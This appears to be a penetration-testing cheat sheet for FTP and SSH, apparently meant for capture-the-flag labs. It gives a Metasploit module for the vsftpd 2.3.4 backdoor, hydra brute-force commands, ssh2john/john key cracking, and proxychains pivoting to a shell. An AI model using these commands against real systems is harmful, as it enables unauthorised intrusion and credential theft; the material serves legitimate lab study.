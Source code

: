 ### Resources to Look at

- <https://hackercool.com/2017/07/hacking-ftp-telnet-and-ssh-metasploitable-tutorials/>

### Very Secure FTP Daemon (vsftpd)

### Writeups

- v2.3.4 exploit

  - <https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/>
  - [HTB-Lame](https://0xdf.gitlab.io/2020/04/07/htb-lame.html), [HTB-LaCasaDePapel](https://0xdf.gitlab.io/2019/07/27/htb-lacasadepapel.html)
  - `msf> use exploit/unix/ftp/vsftpd_234_backdoor`

### ProFTPd

### Resources to Look at

- <https://hackercool.com/2020/03/hacking-proftpd-on-port-2121-and-hacking-the-services-on-port-1524/>

## Port 22 - SSH

- Banner grab: telnet $IP 22
- Try weak creds & Brute-force (exploitable in case of a very old version)

  ```shell
    hydra -L users.txt -P rockyou.txt $IP ssh
    hydra -l $USERNAME -P /usr/share/wordlists/wfuzz/others/common_pass.txt ssh://$IP
  ```

- Crack passwords with john

  ```shell
    python ssh2john.py id_rsa > id_rsa.hash
    john --wordlist=rockyou.txt id_rsa.hash
    ssh -i /home/$username/.ssh/id_rsa $username@$IP
  ```

- Examine configuration files: `ssh_config`, `sshd_config`, `authorized_keys`, `ssh_known_hosts`, `.shosts`
- Proxychains

  ```shell
    # if ssh is filtered, add 'http $IP 3128' to /etc/proxychains.conf
    proxychains ssh $username@$IP /bin/bash
    # after get shell, find other internal services
    netstat -antp
  ```

- RSA tool for ctf: useful for decoding passwords
- SSH with id_rsa of a user

  ```shell
    chmod 600 id_rsa
    ssh -i id_rsa $username@$IP
  ```
